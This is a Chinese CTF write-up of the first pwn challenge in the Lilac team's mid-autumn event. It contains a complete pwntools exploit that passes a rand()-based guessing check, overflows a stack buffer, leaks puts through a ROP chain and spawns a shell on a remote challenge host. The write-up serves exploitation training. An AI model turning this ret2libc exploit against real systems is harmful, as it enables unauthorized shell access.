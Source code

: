 # Lilac Mid Autum Fun




# Lilac

>  HIT本部的ctf战队Lilac的中秋活动，只有三道PWN。

<!-- more -->

# PWN1

## checksec

```shell
[*] '/home/giantbranch/Desktop/pwn/mid-autum-fun1/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## ida

向v7中写入v6大小的数据，遇到回车结束。v6就是我们用alloca在栈上申请的大小。

为了保证v6大小能让我们完整的写入payload所以这里给它一个很大的数，“-31”，反正我们不用把所有的申请空间填满。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"
from ctypes import *
libc1=cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

local=0
offset=0x14-3+8-1
if local:
	p=process('./pwn')
	elf = ELF('./pwn')
else:
	p=remote('47.94.239.235',3001)
	elf = ELF('./pwn')

#guess number
def guess():
	libc1.srand(0X91D)
	for i in range(66):
    		num=str(libc1.rand())
    		p.sendlineafter("guess next number :",num)

#gdb.attach(p)
guess()
p.recvuntil("size of you name :")
p.sendline('-31')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
pop_rdi=0x0000000000400b53
main=0x000000000040099C
#gdb.attach(p)

payload='a'*offset+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
p.recvline()
puts_addr=u64(p.recv(6).ljust(8, '\x00'))
print hex(puts_addr)
sleep(0.5)

libcbase=puts_addr-0x06f6a0
system=libcbase+0x0453a0
bin_sh=libcbase+0x18ce17
print hex(puts_addr)

guess()
p.recvuntil("size of you name :")
p.sendline('-31')
#gdb.attach(p)
payload='a'*offset+p64(pop_rdi)+p64(bin_sh)+p64(system)
p.sendline(payload)

p.interactive()
```

## 总结

题目不难，这里主要介绍两个工具

**gdb.attach(p)**：这个命令可以让你在执行脚本的时候再为你开启一个终端，供你进行动态调试。这样我们就可以知道自己的脚本在哪一步出了问题。**~~强推~~**

**libc database search**：LibcSearch虽然感觉很方便，但是它的libc库不算全，这个工具可以让你通过最后三位的偏移确定libc的版本。

